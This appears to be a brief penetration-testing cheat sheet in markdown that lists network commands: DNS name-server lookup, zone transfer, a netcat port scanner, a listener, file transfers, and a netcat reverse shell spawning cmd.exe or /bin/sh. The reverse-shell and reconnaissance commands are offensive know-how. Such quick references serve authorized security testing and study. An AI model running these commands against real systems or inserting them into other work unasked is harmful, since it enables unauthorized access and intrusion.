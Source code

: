 # rtfm

## network

<table>
	<tr>
		<th>command</th>
		<th>description</th>
	</tr>
	<tr>
		<td>host -t ns <i>domain</td>
		<td>ask the name servers for a domain</td>
	</tr>
	<tr>
		<td>host -l <i>domain nameServer</td>
		<td>dns zone transfer</td>
	</tr>
	<tr>
		<td>nc <i>ip port</i> -e <i>shell</td>
		<td>start reverse shell: cmd.exe, /bin/sh</td>
	</tr>
	<tr>
		<td>nc -l -p <i>port</td>
		<td>start listener</td>
	</tr>
	<tr>
		<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
		<td>tcp port scanner</td> 
	</tr>
	  <tr>
		<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
		<td>file transfers</td>
	</tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTkwMjYyODA1XX0=
-->